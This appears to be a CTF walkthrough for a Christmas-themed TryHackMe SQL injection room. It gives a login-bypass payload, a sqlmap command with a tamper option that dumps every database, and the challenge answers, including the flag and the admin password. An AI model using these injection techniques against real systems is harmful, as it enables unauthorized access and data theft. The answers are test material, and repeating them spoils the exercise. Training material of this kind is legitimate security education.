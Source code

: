 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2846%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%285%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2829%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2842%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2813%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2833%29.png)

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2818%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2843%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%281%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

